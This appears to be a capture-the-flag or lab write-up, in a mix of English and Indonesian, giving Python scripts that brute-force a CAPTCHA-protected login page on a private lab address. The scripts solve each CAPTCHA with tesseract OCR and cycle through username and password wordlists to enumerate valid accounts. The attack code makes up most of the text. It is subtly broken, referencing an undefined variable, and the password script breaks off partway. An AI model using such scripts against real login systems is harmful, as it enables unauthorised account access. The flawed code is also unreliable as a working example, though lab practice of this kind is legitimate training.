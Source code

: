 my linux bad for having pytesseract, and it has tesseract tool for linux CLI. So, i used that tools for OCR:
[code]

searching for username:

```
import requests
from bs4 import BeautifulSoup
from PIL import Image
from io import BytesIO
import subprocess

url = "http://192.168.70.202:3333/login3.php"
session = requests.Session()

with open("/home/kali/Documents/Login1/user.txt") as file:
    for line in file:
        a = line.strip()

        soup = BeautifulSoup(session.get(url).content, 'html.parser')
        cap = f"http://192.168.70.202:3333/{soup.find('img')['src']}"
        img = Image.open(BytesIO(session.get(cap).content))
        img.save("/home/kali/Documents/Login1/cap.png")

        subprocess.run(["tesseract", "/home/kali/Documents/Login1/cap.png", "/home/kali/Documents/Login1/out"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
        with open("/home/kali/Documents/Login1/out.txt") as cap:
            captcha = cap.read().strip()

        a = {"username": a, "password": "12345", "captcha": captcha}
        x = session.post(url, data=a)

        if "Password salah" in x.text:
            print(f"valid: {user}")
        else:
            print(f"salah: {user}")

```

searching for password:
```
import requests
from bs4 import BeautifulSoup
from PIL import Image
from io import BytesIO
import subprocess
import re

url = "http://192.168.70.202:3333/login3.php"
session = requests.Session()

with open("/home/kali/Documents/Login1/pass.txt") as file:
    for line in file:
        password = line.strip()

        soup = BeautifulSoup(session.get(url).content, 'html.parser')
        cap_src = soup.find('img')['src']
        cap = f"http://192.168.70.202:3333/{cap_src}"

        img = Image.open(BytesIO(session.get(cap).content))
        img_path = "/home/kali/Documents/Login1/cap.png"
        out_txt = "/home/kali/Documents/Login1/out.txt"
        img.save(img_path)

```